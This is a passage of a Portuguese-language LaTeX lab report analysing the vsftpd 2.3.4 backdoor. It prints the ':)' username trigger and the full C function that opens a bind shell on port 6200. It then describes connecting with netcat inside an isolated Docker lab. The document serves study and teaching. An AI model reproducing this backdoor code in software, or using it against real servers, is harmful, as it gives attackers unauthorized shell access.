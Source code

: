 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{verbatim}
else if((p_str->p_buf[i]==0x3a)
&& (p_str->p_buf[i+1]==0x29))
{
	vsf_sysutil_extra();
}
\end{verbatim}

\subsection{Trecho 2: backdoor na porta 6200 (\texttt{sysdeputil.c})}
A função maliciosa \texttt{vsf\_sysutil\_extra()} abre um socket na porta 6200, aceita conexões e entrega um shell interativo ao atacante:

\begin{verbatim}
int
vsf_sysutil_extra(void)
{
	int fd, rfd;
	struct sockaddr_in sa;
	if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0) // cria socket TCP
	exit(1);
	memset(&sa, 0, sizeof(sa));
	sa.sin_family = AF_INET;
	sa.sin_port = htons(6200); // porta do backdoor
	sa.sin_addr.s_addr = INADDR_ANY;
	if((bind(fd,(struct sockaddr *)&sa,
	sizeof(struct sockaddr))) < 0) exit(1);
	if((listen(fd, 100)) == -1) exit(1); // comeca a escutar conexoes
	for(;;)
	{
		rfd = accept(fd, 0, 0);
		close(0); close(1); close(2);
		dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2); // redireciona E/S para o socket remoto
		execl("/bin/sh","sh",(char *)0); // executa shell para o atacante
	}
}
\end{verbatim}

Em termos práticos, o backdoor funciona como um serviço auxiliar oculto: depois que o usuário digita o nome com \texttt{':)'}, o programa começa a aceitar conexões na porta 6200. O atacante então se conecta com um cliente TCP, como \texttt{netcat}, e passa a executar comandos no contexto do processo vulnerável.

\section{Arquitetura do Experimento}
\begin{itemize}
	\item \textbf{Ambiente controlado:} o experimento foi executado em containers Docker conectados a uma rede bridge dedicada (\texttt{vsftpd-lab}), isolando atacante e vítima do restante do sistema.
	\item \textbf{Container da vítima:} executa o vsftpd vulnerável compilado a partir do código-fonte, permitindo observar o comportamento do binário adulterado em um ambiente reproduzível.
	\item \textbf{Container do atacante:} fornece ferramentas de teste, como cliente FTP e \texttt{netcat}, para acionar o backdoor e validar a conexão remota.
	\item \textbf{Fluxo de execução:} primeiro sobe-se a infraestrutura com \texttt{make up}. Em seguida, acessa-se o container da vítima com \texttt{make victim}, recompila-se o servidor em \texttt{/opt/vsftpd-2.3.4-infected} e executa-se o daemon vulnerável. Depois, em outro terminal, acessa-se o container do atacante com \texttt{make attacker} para disparar a exploração.
\end{itemize}
\end{document}
